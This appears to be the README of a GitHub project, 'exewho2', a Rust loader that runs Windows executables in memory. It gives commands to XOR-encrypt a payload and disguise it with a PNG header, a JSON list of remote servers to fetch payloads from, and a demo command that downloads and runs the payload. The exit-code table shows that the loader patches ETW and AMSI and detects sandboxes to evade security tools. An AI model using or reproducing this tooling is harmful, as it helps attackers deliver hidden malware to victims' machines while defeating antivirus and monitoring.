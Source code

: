 # exewho2
ExeWho on steroids

## Preparing an executable
Once you have the payload EXE, you can use the `scripts/parser.py` script to "prepare" it for the `exewho2` binary.
The script does two things:

- XOR encrypts the payload
- Adds a PNG header to the encrypted payload

You can run the script as:
```bash
$ python3 scripts/parser.py --key abcdefghiojkl /path/to/payload.exe
```
This creates a file: `/path/to/payload.exe.png` which can then be fed into the JSON payload.

## Creating JSON

A list of servers to fetch the actual payload from can be achieved by creating a JSON as follows(see `server_demo.json`):

```json
{
    "servers": [
        "http://192.168.0.107:8000/test1.exe.png",
        "http://192.168.0.107:8000/test.exe.png"
    ]
}
```
A list of servers can be specified as shown and the program iterates through the list till it finds a valid response

## Compiling the executable

On Linux, make sure you have the `x86_64-pc-windows-gnu` toolchain

```bash
$ rustup target add x86_64-pc-windows-gnu
```

The you can compile using

```bash
$ cargo build --target "x86_64-pc-windows-gnu" # For DEBUG Builds
$ cargo build --target "x86_64-pc-windows-gnu" --release # For Release Builds
```

## Running the payload

You can get a list of available options with:

```
Run executables in Memory, but better!

Usage: exewho2.exe [OPTIONS] --url <url>

Options:
  -u, --url <url>      URL to fetch Server Listings from
      --ds             Try to detect if loader is in a Sandbox
  -k, --key <dec_key>  Key for decrypting incoming stream(if encrypted)
  -h, --help           Print help
```

A demo run would look like:
```
exewho2.exe -u http://192.168.0.107:8000/server.json --ds --key abcdefghiojkl
```

![](./image.png)

> Note the if the `--ds` option is specified, the program exits on sandbox detection

## Exit Codes 
| Exit Code | Description |
| :--------:| :-------------:|
| -1 |  Failed to patch ETW |
| -2 | Failed to patch AMSI | 
| -3 | Sandbox Detected |
| -4 | Failed to fetch CLI Args |
| -5 | Invalid PE file |
| -6 | Failed to execute payload |

## Notes
- Make sure all domain names in the JSON are in lowercase. Eg:
    - Valid:    http://mysuspiciousdomain.com
    - Invalid:  http://MysuspiciousDomain.com